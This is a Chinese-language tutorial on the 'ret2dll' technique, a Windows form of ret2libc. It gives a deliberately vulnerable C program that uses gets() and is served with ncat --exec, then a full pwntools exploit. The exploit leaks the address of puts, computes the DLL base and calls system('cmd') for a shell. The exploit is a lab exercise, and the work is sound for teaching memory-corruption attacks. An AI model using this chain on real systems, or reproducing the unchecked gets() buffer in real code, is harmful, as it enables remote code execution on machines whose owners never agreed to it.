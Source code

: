 # ret2dll利用

原理与linux下的ret2libc类似，不过需要手动提取地址，目前pwntools不能提取exe文件地址。
源代码如下
```
#include <stdio.h>
#include <ctype.h>
#define DEFAULT_LEN 16
int val(){
        char buff[DEFAULT_LEN] = {0};
        gets(buff);
}
int main(void)
{
        puts("start");
        fflush(stdout);
        val();
        fflush(stdout);
        puts("end");
        fflush(stdout);
}
```
使用gcc(MinGW-W64 x86_64-ucrt-posix-seh)在windows下编译

`gcc "-Wl,--disable-reloc" -g -o ret2dll.exe ret2dll.c`


## 搭建临时环境

使用ncat
`ncat -l 8080 --keep-open --exec ".\ret2dll.exe"`
使用win_server
win_server ./ret2dll.exe 8080

exp如下
```
from pwn import *

context.log_level='debug'
context.arch='amd64'
p=remote("192.168.0.190",8080)#这里替换为windows的ip
main_addr=0x14000155B#手动输入地址
ret_addr=0x1400015D7
puts_plt=0x140002868
puts_got=0x14000829C
rdi_addr=0x140002447
rcx_addr=0x140002750
#bp 0x140001554


payload  = b'a' * (0x10 +8)
payload += p64(rcx_addr)
payload += p64(puts_got)
payload += p64(puts_plt)

payload += p64(main_addr)
p.recvuntil("start")
p.sendline(payload)
puts_leak=u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))

print("leak addr:",hex(puts_leak))

puts_dll=0x11014E470
cmd_dll=0x0110179E48
sytem_dll=0x0110117E50

dll_base=puts_leak-puts_dll
# dll_base=0x7ffe71e00000
print("base addr:",hex(dll_base))

cmd_addr = dll_base +cmd_dll
system_addr=dll_base+sytem_dll
print("start attck")
payload  = b'a' * (0x10 + 8)
payload += p64(ret_addr)
payload += p64(rcx_addr)
payload += p64(cmd_addr)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

效果如下

![ret2dll](./figure/ret2dll-1.png)